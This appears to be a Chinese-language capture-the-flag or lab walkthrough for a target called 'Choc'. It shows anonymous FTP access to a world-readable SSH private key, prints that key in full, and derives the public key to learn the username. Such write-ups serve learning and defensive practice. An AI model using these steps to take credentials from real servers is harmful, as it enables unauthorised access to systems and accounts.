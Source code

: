 ## 漏洞发现

### ftp服务探测

发现允许匿名登录：

```bash
┌──(kali㉿kali)-[~/temp/Choc]
└─$ lftp $IP
lftp 192.168.10.103:~> ls
-rwxrwxrwx    1 0        0            1811 Apr 20  2021 id_rsa
lftp 192.168.10.103:/> get id_rsa 
1811 bytes transferred
lftp 192.168.10.103:/> exit
                                                                                                                                                                                             
┌──(kali㉿kali)-[~/temp/Choc]
└─$ cat id_rsa      
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABFwAAAAdzc2gtcn
NhAAAAAwEAAQAAAQEAsQCczRyfpNWE2Ugqm3ZmOI1wjRrg6xHhy5rBBzA5Ih6U9cviHi1c
clLq1pA8MFgHrO/G3xx5F2yDVY++PdRI6B96+DsMYYWWuM/ZrVmiZVrXZZcxMrAuhlK9Uy
D13N72ZIj21LgFmK8+Gx26UKCLmJfnAIDijymxUUYXyyDqpPtW7DPi1XFoME+WSAqcYkzo
iEjQFD4CJ6wSpK5RaLbfozT7mcE8v8leyMeAno5JzBoNTKrsj/ti8s3hKZn/jnMKEua/41
VpUnXTtRYpt+95UzaQzio9pMDbGvczv/YwIze7obtZoe8G/JXVNCJgnqeAunayUk232Di5
Ve6y4Hx9FwAAA8Ab+Q4SG/kOEgAAAAdzc2gtcnNhAAABAQCxAJzNHJ+k1YTZSCqbdmY4jX
CNGuDrEeHLmsEHMDkiHpT1y+IeLVxyUurWkDwwWAes78bfHHkXbINVj7491EjoH3r4Owxh
hZa4z9mtWaJlWtdllzEysC6GUr1TIPXc3vZkiPbUuAWYrz4bHbpQoIuYl+cAgOKPKbFRRh
fLIOqk+1bsM+LVcWgwT5ZICpxiTOiISNAUPgInrBKkrlFott+jNPuZwTy/yV7Ix4CejknM
Gg1MquyP+2LyzeEpmf+OcwoS5r/jVWlSddO1Fim373lTNpDOKj2kwNsa9zO/9jAjN7uhu1
mh7wb8ldU0ImCep4C6drJSTbfYOLlV7rLgfH0XAAAAAwEAAQAAAQBtfN6BdhI+aSF7MkvA
zJVgqAUWE6lLX01Xn4uFgcvlkhs8i/h8CD0mLqo7PQ8uLFXbIJrYygkRdzsqQvc/0b+jbk
2nnQcEkBjyiwewVkDBB1cz7TkujJLK3gVklX/gNz8cYyij3oz/rG7zYQkt9JFFO7lVs2Px
gK3Bg2UWbm8Wy6aj36XMyPOywdec4tveb5KfcdIb4mWr0QSGLpUr8XuYIUMUofd8iv3QQU
zpcQMwoOcKCV/Q+4t8jIF+dOCuBYca9QlY3po48yC9VHv78f8QgQzsazQXqYAusoNesVC6
Hi6+LtpHh+Hr/m4Z7EFVtLVcNbWgtlhhfCxHBjKaeMGBAAAAgDhFvTbro0SLydbImERRJR
FLILG+9KEOHgbKU9zBvww5ffGNuVjrkCKegzTCZszr6nLj/biZCFMSu7bZiFzWjffwmOdm
C0sslLd/ggyYmNotp4TjTEYF+53OFCUm2W8asFXCI9jHrfgR0/aFwAV9OLJHrzYehKfayT
nsgAc6SihqAAAAgQDdcvP2mXRHegBcd6rouW4i9ktzECE9ujBy/KvyzQkVS3e+rhsbjisV
t2mx1jX8YJ+NA499063/tn3T9RDGf9U2Cv+2QvO5ZL+5UDLC9ywCEYMPEuOnumbMlK9wuQ
fRTtHHvKOewBLskyvxCGQGwmxfkeOh5iGpFmiw0R/O3+nqwQAAAIEAzJ5ixt3FneAcWcGo
OUZfsk9IVJZoGCSd/ljYTCPX00l+YmZviVrge3pqCEgNQIiLorPDaPYjY/rsARZPf1lVS1
+L0rtKK4BhD+1qR4xebv/5lKEMktqCn+rt4Z8aejb2Pi5fmNet2zNJTkcsWuVrPG7fHzWa
6+s3SjFL/cTmldcAAAAJY2FybEBjaG9jAQI=
-----END OPENSSH PRIVATE KEY-----
```

啊这么朴实无华的吗。。。。。

### 私钥解出公钥得出用户名

```bash
┌──(kali㉿kali)-[~/temp/Choc]
└─$ chmod 600 id_rsa

┌──(kali㉿kali)-[~/temp/Choc]
└─$ ssh-keygen -y -f id_rsa      
ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCxAJzNHJ+k1YTZSCqbdmY4jXCNGuDrEeHLmsEHMDkiHpT1y+IeLVxyUurWkDwwWAes78bfHHkXbINVj7491EjoH3r4OwxhhZa4z9mtWaJlWtdllzEysC6GUr1TIPXc3vZkiPbUuAWYrz4bHbpQoIuYl+cAgOKPKbFRRhfLIOqk+1bsM+LVcWgwT5ZICpxiTOiISNAUPgInrBKkrlFott+jNPuZwTy/yV7Ix4CejknMGg1MquyP+2LyzeEpmf+OcwoS5r/jVWlSddO1Fim373lTNpDOKj2kwNsa9zO/9jAjN7uhu1mh7wb8ldU0ImCep4C6drJSTbfYOLlV7rLgfH0X carl@choc
```
